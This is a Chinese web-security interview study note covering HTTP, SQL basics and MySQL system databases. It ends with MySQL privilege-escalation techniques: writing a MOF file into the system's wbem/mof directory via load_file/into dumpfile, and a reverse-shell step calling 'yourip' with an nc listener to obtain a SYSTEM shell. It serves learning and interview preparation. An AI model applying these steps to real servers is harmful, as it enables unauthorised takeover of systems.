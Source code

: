 ```yaml
---
layout: post
title: "WEB安全面试复习笔记"
date: 2019-5-6 20:49:43
author: co0ontty
categories: WEB ALL
tags: WEB ALL 
---
```

## 对Web安全的理解
我觉得 Web 安全首先得懂 Web、第三方内容、Web 前端框架、Web 服务器语言、Web 开发框架、Web 应用、Web容器、存储、操作系统等这些都要了解，然后较为常见且危害较大的，SQL 注入，XSS 跨站、CSRF 跨站请求伪造等漏洞要熟练掌握。  
第三方内容: 广告统计、mockup 实体模型  
>Web前端框架: jQuery 库、BootStrap  
Web服务端语言: aps.net、php  
Web开发框架: Diango/Rails/Thinkphp  
Web应用: BBS ( discuz、xiuno ) / CMS ( 帝国、织梦、动易、Joomla ) / BLOG ( WordPress、Z-Blog、emlog )  
Web 容器: Apache ( php )、IIS ( asp )、Tomcat ( java ) -- 处理从客户端发出的请求  
存储：数据库存储 / 内存存储 / 文件存储  
操作系统: linux / Windows  

## HTTP  
### HTTP常见状态码
>1xx：信息提示，表示请求已被成功接收，继续处理。  
2xx：成功，服务器成功处理了请求  
3xx：重定向，告知客户端所请求的资源已经移动  
4xx：客户端错误状态码，请求了一些服务器无法处理的东西。  
5xx：服务端错误，描述服务器内部错误  

### HTTP请求
>请求行 ( 请求方法 )、请求头 ( 消息报头 ) 和请求正文   

### HTTP响应
>响应行，响应头 ( 消息报头 ) 和响应正文 ( 消息主题 )  

### GET 和 POST：
>GET方法用于获取请求页面的指定信息，如点击链接
>POST方法是有请求内容的，由于向服务器发送大量数据，如提交表单

## 数据库  
基本的SQL语句：
>增：INSERT INTO table_name (列1, 列2,...) VALUES (值1, 值2,....)  
删：DELETE FROM 表名称 WHERE 列名称 = 值  
改：UPDATE 表名称 SET 列名称 = 新值 WHERE 列名称 = 某值  
查：SELECT 列名称 FROM 表名称   

mysql默认自带表:  
> information_schema、performance_schema、sys、mysql   

information_schema 数据库：
 mysql 自带的，它提供了访问元数据库的方式。  
sys 数据库 ：
目标是把performance_schema的把复杂度降低
>sys_config用于sys schema库的配置

sys中的两种表：
> 1.字母开头： 适合人阅读，显示是格式化的数
2.x$开头 ： 适合工具采集数据，原始类数据

mysql 提权方式：  
***mof提权***   
拿到 Webshell 后：   
1、找一个可写目录上传mof文件，例如上传到 C:/Windows/nullevt.mof  
2、执行load_file及into dumpfile把文件导出到正确的位置即可:
>Select load_file('C:/Windows/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'  

执行成功后，即可添加一个普通用户，然后你可以更改命令，再上传导出执行把用户提升到管理员权限，然后3389连接即可
***反弹端口提权***   
1、拿到 mysql root 权限，无法通过网站 Getshell，利用 mysql 客户端工具连接 mysql 服务器，然后执行下面的操作：   
```php
select backshell ("yourip",2010)
```   
2、本地监听你反弹的端口   
```bash
nc -vv -l -p 2010     
```   
成功后，你将获得一个 system 权限的 cmdshell
***Mysql  udf 提权*** 
